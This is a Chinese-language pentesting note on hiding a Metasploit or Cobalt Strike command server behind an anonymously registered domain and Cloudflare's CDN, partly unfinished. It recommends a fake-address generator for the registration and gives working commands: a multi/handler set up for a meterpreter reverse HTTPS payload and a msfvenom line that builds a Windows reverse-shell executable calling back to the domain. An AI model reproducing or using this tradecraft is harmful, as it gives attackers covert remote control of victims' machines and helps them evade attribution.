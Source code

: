 ## 域名上线隐藏IP
在使用MSF或CS获得目标机Session或Beacon时, 如果直接使用自己的VPS作为服务器, 容易被溯源主机IP

当访问域名时会经过域名解析, 将域名转换为IP地址访问, 使用CDN进行代理, 转发流量, 实现IP隐藏

[CDN 内容分发网络](/网安/蚁景-渗透测试/1.0%20信息收集#CDN)

### 配置域名+CDN
1. 匿名注册域名
- 国外域名无需备案
	- https://www.namesilo.com/
	- https://www.namecheap.com/
- 美国地址生成器 https://www.meiguodizhi.com/
- 优惠码 https://www.uphezi.com/namesilo-coupon/?wpcd_coupon=2828
2. 注册免费CDN
- https://www.cloudflare.com/zh-cn/, 使用购买的域名添加站点, 免费计划
3. 配置域名的解析服务 https://www.namesilo.com/account_domains.php, 修改为CloudFlare后台, 概述中的nameserver
4. 配置CDN的DNS服务器, 使用*CDN代理模式*, 类型**A**, 内容为**VPS的IP地址**
5. 配置SSL/TLS加密方式, 全部关闭

CloudFlare的CDN, http, https代理模式如果用其它端口则监听不到
```
# http端口
80,8080,8880,2052,2082,2086,2095

# https端口
443,2053,2083,2087,2096,8443
```

## Metasploit
### HTTP
1. msfvenom生成木马
2. 设置payload, lhost=CDN域名, lport, reverselistenerbandsddress, MSF开启监听

### HTTPS
1. CloudFlare->SSL/TLS创建证书, 生成pem(源证书) 和key(私钥证书), 上传至VPS, 创建一个包含两个证书的统一证书文件.
```
cat cloudflare.key cloudflare.pem >> /root/cloudflare-key.pem
```
2. 设置监听器, 需要设置`HandlerSSLCert`为 `true`, 启用SSL; 设置`EnableStateEncoding`对第二阶段载荷编码.
```
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_https
set LHOST www.mingy.xyz
set LPORT 443
set HandlerSSLCert /root/cloudflare-key.pem
set StagerVerifySSLCert true
set EnableStageEncoding true
set SSLVersion TLS1
run
```
访问https://\<CND-domain\>, 看到Itworks信息代表成功
3. 生成payload CDN域名为lhost
```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=www.mingy.xyz LPORT=443 -f exe -o r443.exe
```
4. 目标主机执行

---
## Cobalt Strike
### Beacon HTTP


### Beacon DNS


## 隧道转发代理


## 转发重定向


## CS流量隐藏